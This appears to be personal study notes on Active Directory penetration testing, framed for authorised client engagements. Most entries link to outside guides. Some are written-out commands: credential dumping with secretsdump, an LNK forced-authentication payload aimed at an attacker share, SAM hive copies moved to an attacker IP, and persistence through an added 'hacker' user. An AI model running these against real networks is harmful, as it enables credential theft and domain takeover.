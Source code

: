 # Windows Active directory

[**internal pentesting "all the things" notes**](https://swisskyrepo.github.io/InternalAllTheThings/)

## Quick notes

### Attack Vectors
- [LLMNR POISONING](https://stridergearhead.medium.com/llmnr-poisoning-an-ad-attack-1265f5365332)
    - This is a quick view
    - [Attack tool "Responder"](https://www.kali.org/tools/responder/)
- [SMB Relay Attacks](https://medium.com/@aniswersighni/active-directory-attacks-smb-relay-attacks-ea7d8cf9a8f8)
    - [This guide is a little bit better than the other one](https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/adversary-in-the-middle/smb-relay)
- [Pass the hash](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/over-pass-the-hash-pass-the-key)
- [IPv6 AD Attack (mitm)](https://stridergearhead.medium.com/ipv6-attack-ad-attack-ea50476dccee)
- [Passback attacks](https://www.mindpointgroup.com/blog/how-to-hack-through-a-pass-back-attack)
- others that i didn't take notes

### Initial internal pentest attack strategy
1. mitm6 or responder
2. run scans to generate traffic
3. if scans are taking too long, look for websites in scope `(http_version)`
4. Look for default credentials on web logins
    - Printers
    - Jenkins
    - Etc
5. enumerate all

### Enumerations commands
- `net user /domain`
- `net user $USER /domain`
- `net group /domain`


### Post-Compromise AD enumeration
- [Bloudhound](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/bloodhound)
    - `sudo bloodhound-python -d DOMAIN.local -u $USERNAME -p $PASSWORD -ns $IP -c all`
- Plumhound
- Ldapdomaindump
    - `sudo ldapdomaindump ldaps://$IP -u 'DOMAIN\username' -p $PASSWORD`
    - Caso hipotetico de uso: LLMNR => conseguimos un hash => lo crackeamos => probamos la contraseña en otras maquinas => encontramos nuevo login => secrets dump those logins => local admin hashes => re-spray network with local accs
- PingCastle
- etc
- Trevor Spray tool
- [SeatBelt Tool](https://github.com/GhostPack/Seatbelt)

### Post compromise attacks
- [kali impacket - secrets dump](https://www.kali.org/tools/impacket/)
    - `secretsdump.py DC.LOCAL/USER:'PASSWORD'@$IP` 
- [Kerberoasting](https://book.hacktricks.xyz/v/es/windows-hardening/active-directory-methodology/kerberoast)
    - [más material](https://tools.thehacker.recipes/impacket/examples/getuserspns.py)
    - Cuando comprometemos una cuenta, un ataque para empezar es este.
- Token impersonation attack
    - psexec
    - mimikatz
- [LNK File Attacks](https://www.ired.team/offensive-security/initial-access/t1187-forced-authentication#execution-via-.rtf): `netexec smb 192.168.138.137 -d marvel.local -u fcastle -p Password1 -M slinky -o NAME=test SERVER=192.168.138.149`
    - Código:

    ```powershell
    $objShell = New-Object -ComObject WScript.shell
    $lnk = $objShell.CreateShortcut("C:\test.lnk")
    $lnk.TargetPath = "\\192.168.138.149\@test.png"
    $lnk.WindowStyle = 1
    $lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
    $lnk.Description = "Test"
    $lnk.HotKey = "Ctrl+Alt+T"
    $lnk.Save()
``` 

### Post compromise attack strategy
- 1st
    - kerberoasting
    - secretsdump
    - pass the hash
- 2nd: big deep
    - enum bloodhound
    - old vulns

### An other post compromise attack strategy
#### Attacking SAM
- [Security Account Manager](https://en.wikipedia.org/wiki/Security_Account_Manager)
##### Copying SAM Registry Hives
- hklm\sam
- hklm\system
- hklm\security
- We can create backups of these hives using the reg.exe utility.

#### Using reg.exe save to copy registry hives.
 ```
 C:\WINDOWS\system32> reg.exe save hklm\sam C:\sam.save

The operation completed successfully.

C:\WINDOWS\system32> reg.exe save hklm\system C:\system.save

The operation completed successfully.

C:\WINDOWS\system32> reg.exe save hklm\security C:\security.save

The operation completed successfully.
```

#### Creating a Share with impacket-smbserver
`impacket-smbserver -smb2support shareName someDir`

#### Moving hive copies to share
```
C:\> move sam.save \\YOUR_KALI_IP\CompData
        1 file(s) moved.

C:\> move security.save \\YOUR_KALI_IP\CompData
        1 file(s) moved.

C:\> move system.save \\YOUR_KALI_IP\CompData
        1 file(s) moved.
```

### Now we own the domain what's next?
- Provide as much value to the client as possible
    - Put your blinders on and do it again
    - Dump the NTDS.dit and crack passwords
    - Enumarate shares for sensitive information
- Persistence can be important
    - What happens if our DA access is lost?
    - Creating a DA account can be useful (remember we have to delete it)
    - creating a golden ticket can be useful too

#### NTDS.dit
- What is it?
    - A DB used to store AD data.
        - User info.
        - Group info.
        - Security descriptors
        - Password hashes
- Golden Ticket attack
    - When we compromise the krbtgt (kerberos target) account, we own the domain
    - We can request access to any resource or system on the domain
    - Golden tickets = complete access to every machine

### Lateral movement notes
- Tools:
    - Psexec => internal tool
    - WinRM

### Persistence
- **Persistence Scripts**
  - `run persistence -h`
  - `exploit/windows/local/persistence`
  - `exploit/windows/local/registry_persistence`

- **Scheduled Tasks**
  - `run scheduleme`
  - `run schtaskabuse`

- **Add a user**
  - `net user hacker password123 /add`
